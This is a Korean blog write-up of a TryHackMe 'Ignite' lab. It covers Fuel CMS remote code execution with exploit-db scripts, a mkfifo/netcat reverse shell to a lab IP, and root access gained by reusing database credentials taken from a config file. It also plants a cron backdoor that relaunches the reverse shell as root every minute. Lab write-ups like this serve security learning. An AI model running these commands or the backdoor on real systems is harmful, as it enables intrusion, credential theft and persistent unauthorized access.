 <h1>Tryhackme - ignite(2)</h1>

<h2>#3 Exploit</h2>

이전에 searchsploit 으로 취약점을 파악 했다.
RCE와 SQL injection 두가지 설명을 앞서 하였고 이제는 exploit을 할 것이다.
우리가 가지고 있는 정보로 활용해야할 취약점에 대해서 조금만 더 파악하고 가보자.

발견된 취약점은 정말 다양하게 활용이 가능하다.
- 공격된 PC를 내마음대로 조종을 하거나
- 다른 사람의 개인정보를 열람
- 다른 사람이 시킨 주문을 취소하거나 어떤 게시판에 달린 댓글을 삭제하기 등등
취약점에 따라 다르게 활용을 할 수 있다.

내가 하고 있는 취약점은 내가 해킹하는 PC를 어떤 명령어로든 실행을 할 수 있게 할 것이다(RCE를 사용할 것이다.)

취약점을 조사할 때 가장 우선순위로 봐야하는 취약점이 RCE다 RCE는 다른 말로도 표현이 되는데
Remote Code Execution = Code injection = Command Execution = Command injection = overflow 등등

#3.1 RCE활용

RCE를 수행 시켜줄 프로그래밍 코드를 작성해야하는데 칼리리눅스에는 이 취약점들을 이용하여 사용할 수 있는 공격 코드들이 기본적으로 내장되어있다. 만약 이것이 없다면 google에서 검색해서 사용하면 된다

파일의 경로는 `/usr/share/exploitdb/exploits/~` 이곳에 저장되어있다.
경로가 기억이 안나면 `find / -name "47138.py" 2> /dev/null` 

```
ls -l /usr/share/exploitdb/exploits/linux/webapps/47138.py
cp /usr/share/exploitdb/exploits/linux/webapps/47138.py ./exploit1.py

cp /usr/share/exploitdb/exploits/linux/webapps/49487.rb ./exploit2.rb

cp /usr/share/exploitdb/exploits/linux/webapps/50477.py ./exploit3.py
```

1. 공격 코드가 txt 일때 -> 취약점을 설명해둔 파일 --> 파일을 가지고 할 순 없고 직접 공격 코드를 만들어 사용하면 됨
2. .py -> python exploit.py
3. .rb -> ruby exploit.rb
4. .c -> c언어 코드로 작성되어서 실행하기 위해선 컴파일을 해야하는데 리눅스에서는 gcc를 이용해서 하면된다 --> gcc exploit.c -o exploit

![이미지](/assets/ignite/5.png)

에러가 발생했는데 여기서 알고 있으면 좋은 점 파이썬은 2가 있고 3가 있는데 이 에러처럼 print옆에 원래 ()이러한 괄호가 들어가는데 만약 괄호가 없으면 python2 이다 이럴땐 `python2` 라고 붙여서 실행하면된다


![이미지](/assets/ignite/6.png)

실행은 되었지만 다시 이상한 에러가 발생했다. HTTPConnectionPool 에러가 발생 -> 뭔가 연결하면서 에러가 발생 한 것인데, 우리가 공격할 IP는 127.0.0.1:8080이 아니라서 코드를 변경해 줘야한다.


ruby 파일을 실행 시키면 docopt가 없다는 에러가 발생하는데 이때는 `gem install docopt` 를 이용하여 설치를 한후에 실행

![이미지](/assets/ignite/7.png)

id 명령어를 정상적으로 실행된 모습
공격한 시스템에서 id라는 명령어가 정상적으로 실행된 모습이다. (내 PC에서의 id 명령어를 실행한 것이 아님.)

![이미지](/assets/ignite/8.png)

3번째 취약점에서도 정상적으로 실행되었다. 
우리가 원하는 shell을 획득한 것이다 하지만 다른 디렉터리로 이동을 하면 이동이 안되는데 이것으로 보아 온전히 완벽히 shell을 획득하지 못한 것이라고 볼 수 있다. 1회용 shell 이라고 보면된다. 자유롭게 사용이 안된다는 것이라서 최고 사용자 권한을 얻기 위해서 작업을 해야한다. 이것을 `POST-Exploit` 이라고 한다.

<h2>#4 Reverse Shell </h2>

이전에는 shell 까지 획득을 하였는데 온전한 shell을 얻기 위해서 `Reverse Shell` 이라는 기법을 사용할 것이다.

#4.1 reverse shell
| reverse shell 은 거꾸로 연결을 받는다 라는 뜻이다.

기본적으로 악성코드를 설치할 때는 공격 타켓에 설치를 하고 프로세스를 실행하여 열린 포트로 접근을 하는데 이것을 `Bind Shell` 이라고 한다. 이것을 거꾸로 하는 것을 reverse shell 이라고 하는데
왜 거꾸로 하는가??
-> 악성 프로세스를 실행시키면 피해자 PC에서 특정 포트를 여는 것 자체가 의심스럽고 또한 방화벽이라는 보안 장치가 실행되고 있어 뚤리지 않을 것이다. 그래서 `Bind Shell`은 잘 먹히지가 않을 것이다.

reverse shell은 반대로 공격자 측에서 포트를 여는 것이다. 즉 프로세스를 피해자 PC에서 실행 시키는 것이 아닌 공격자 PC에서 실행시킨 후에 공격자 PC의 포트로 연결되도록 악성코드를 만들어 피해자에서 실행시켜서 컴퓨터를 연결하는 기법이다.

*흔히들 방화벽에서는 인바운드 규칙은 굉장히 디테일하게 까다롭게 하지만 아웃바운드 규칙은 까다롭게 하지 않거나 아예 설정조차 하지 않는 허점을 이용해서 해킹을 하는 것이다.*

#4.2 활용

1. 공격자 컴퓨터에서 포트를 열고 있기.
 - `nc -nlvp` : 특정 포트를 열겠다.

 ![이미지](/assets/ignite/9.png)

2. 피해자 PC에서 공격자 PC로연결을 한다.
 - google 에서 reverse shell cheat sheet 라고 검색한 후에 코드 획득
 - `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.4.65.126 5555 >/tmp/f` nc mkfifo를 사용 (피해자 PC에서 명령어 입력)

 ![이미지](/assets/ignite/10.png)
 이 모습이 reverse shell을 획득한 모습이다. 이 상태에서는 디렉터리 경로도 이동이 가능하다 하지만 아직도 살짝 부족한 점이 있다면 최고 사용자(root) 사용자가 아닌 것이다.

<h2>#5 Post-Exploit </h2>

내가 접속한 컴퓨터를 정말 내것을 완전 내것으로 만드는 작업이다.
대표적으로 *권한 상승* & *Back Door* 심기를 해 볼것이다.

#5.1 권한 상승

정말 많은 방법이 있지만 기본적인 원리는 이 시스템에서 존재하는 정보들을 활용해서 권한을 상승시킬 수 있는 요소를 파악하는 것이다. 그러기 위해선 이 시스템을 먼저 파악해야한다.

1. 계정 정보 확인 (/etc/passwd)
 - `cat /etc/passwd | grep sh` 
 - 계정에 root 계정 하나 밖에 없지만, 만약 마리오계정(일반사용자 계정)이 있으면 마리오계정을 해킹한 다음에 root로 올라갈 수도 있는 방법이 있다.

2. fuel 웹 페이지를 사용하고 있기 때문에 fuel 디렉터리에 들어가 확인
 - ![이미지](/assets/ignite/11.png)
 - 웹 서버를 해킹 했다면 가장 먼저 찾아야 하는 것은 DB에 대한 정보이다. 그래서 DB정보에 대한 것은 핵심적인 디렉터리에 보면 무조건 있을 수 밖에 없다(연동이 되려면 DB에 대한 정보를 가지고 있어야 연동이 되기 때문에)

3. DB 계정 정보 찾기
 - 보통 설정 파일에 많이 있음
 - `find ./ -name "*conf* 2> /dev/null`
 - ![이미지](/assets/ignite/12.png)
 - modules는 모듈이기 때문에 아마 없을 것이고, application 부분에 있지 않을까 라는 생각이 든다
 - application/config 안에 보면 database.php 라는 파일이 있는데 역시나 db에 대한 정보가 들어가 있었다.
 - ![이미지](/assets/ignite/13.png)
 - db의 아이디가 root 이다..나는 권한 상승을 하기 위해서 root 계정으로 로그인해야하는데 db의 패스워드가 혹시 root의 패스워드 이지 않을까?? 라는 것을 `크리덴셜 스터핑` 이라고 한다. (실제로 공격률이 높다고 한다. 나 또한 똑같은 비밀번호를 돌려 쓰기 때문이다)

4. DB 정보로 root 사용자 로그인 해보기
 - ![이미지](/assets/ignite/14.png)
 - `su root` 로 전환을 해보려 했지만 실패 했다. 이 에러를 해결해주기 위해서 자주 사용해야할 명령어가 있다. 쉘을 얻었는데 인터렉티브한 쉘을 얻지 못했을 때 사용하면 된다.
 - `python -c "import pty;pty.spawn('/bin/bash')"`
 - ![이미지](/assets/ignite/15.png)
 - 최고 사용자 까지 획득을 하였다.

권한 상승의 원칙
1. 이 시스템에서 얻을 수 있는 정보를 찾는다
2. 만약 정보를 찾을 수 없다면 DB안에 있는 정보를 보거나 OS 버전 정보를 찾아 `privilege escalation` (권한 상승) 취약점을 찾아 실행을 해주면된다.

#5.2 Back Door 설치

이 시스템에 또 들어오기 위해서 똑같은 작업을 반복하게 하지 않게 하기 위해서 Back Door를 설치한다.
cron을 이용하여 실행할 것인데, 리눅스에서 사용하는 스케쥴 시스템이다.

1. cron 에 추가하기
 - `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.4.65.126 5555 >/tmp/f`이 명령어를 1분 마다 실행하게 만들 것이다.
 - /etc/crontab에서 설정할 수 있다.
 - `echo "* * * * * root rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.4.65.126 5555 >/tmp/f" >> /etc/crontab` -> 매 분마다 root 권한으로 명령어를 실행시켜줘.
 - ![이미지](/assets/ignite/16.png)

2. 다시 재접속 하기
 - crontab에 넣어졌기 때문에 이제 1분마다 명령어가 실행되기 때문에 언제든지 들어갈 수 있게 된다.
 - 재접속 할땐 `nc -nlvp 5555` 명령어를 통해서 접속을 하면 된다.


정리
Post-exploit은 exploit(shell 획득)이후에 일어나는 모든 행동을 post-exploit 단계에 넣을 수 있다.
권한 상승이나 백도어 설치는 정말 일부에 불과하다. 다른것은 무엇을 할 수 있냐면 이 시스템 옆에 있는 다른 연결된 PC를 공격할 수도 있거나 중요한 파일을들 가져오거나 랜섬웨어를 걸 수도 있을 것이고 등등 다양한 작업들을 Post-exploit으로 이야기 할 수 있을 것이다.